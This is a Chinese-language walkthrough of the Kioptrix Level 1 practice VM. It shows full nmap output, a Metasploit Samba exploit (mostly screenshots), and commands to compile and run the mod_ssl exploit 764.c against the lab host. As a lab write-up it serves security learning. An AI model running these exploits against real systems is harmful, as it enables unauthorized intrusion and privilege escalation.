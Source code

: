 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 KIOPTRIX:LEVEL 1 Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2022-03-21
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public

---
```


## 扫描

扫描IP，发现主机IP

192.168.56.104

扫描端口

`nmap -T5 -A -v -p- 192.168.56.104`

```
└─$ nmap -T5 -A -v -p- 192.168.56.104  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 00:14 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating Ping Scan at 00:14
Scanning 192.168.56.104 [2 ports]
Completed Ping Scan at 00:14, 0.00s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating Connect Scan at 00:14
Scanning 192.168.56.104 [65535 ports]
Discovered open port 443/tcp on 192.168.56.104
Discovered open port 111/tcp on 192.168.56.104
Discovered open port 80/tcp on 192.168.56.104
Discovered open port 139/tcp on 192.168.56.104
Discovered open port 22/tcp on 192.168.56.104
Discovered open port 1024/tcp on 192.168.56.104
Completed Connect Scan at 00:14, 4.34s elapsed (65535 total ports)
Initiating Service scan at 00:14
Scanning 6 services on 192.168.56.104
Completed Service scan at 00:14, 11.01s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.56.104.
Initiating NSE at 00:14
Completed NSE at 00:14, 10.42s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 1.15s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Nmap scan report for 192.168.56.104
Host is up (0.00031s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce 5293 4723 e7fe c28d 74ab 42d7 02f1
|_SHA-1: 9c42 91c3 bed2 a95b 983d 10ac f766 ecb9 8766 1d33
|_ssl-date: 2022-03-21T17:14:49+00:00; +12h59m59s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: 12h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>

NSE: Script Post-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.20 seconds

```

## 方法一

发现samba，使用smbclinet没有扫出来版本，使用msf扫描发现版本

![image-20220415181220010](/assets/img/image-20220415181220010.png)

搜索exp发现

![image-20220415181234735](/assets/img/image-20220415181234735.png)

使用msf利用



![image-20220415181245923](/assets/img/image-20220415181245923.png)

尝试payload，修改LHOST后利用成功，获得root权限

![image-20220415181255633](/assets/img/image-20220415181255633.png)

![image-20220415181300663](/assets/img/image-20220415181300663.png)

## 方法二

​	使用nikto扫描

![image-20220415181311227](/assets/img/image-20220415181311227.png)

发现mod_ssl存在问题，搜索exp

![image-20220415181318656](/assets/img/image-20220415181318656.png)

尝试使用764

还需要安装libssl-dev: 

```
apt-get install libssl-dev
```

编译764.c

```
gcc -o 764 764.c -lcrypto
```

执行exp

```
./764 0x6b 192.168.56.104 443 -c 50
```

因为网络问题，目标机无法下载COMMAND2下载提权代码，所以只获得apache权限，正常情况下可以直接获得root权限
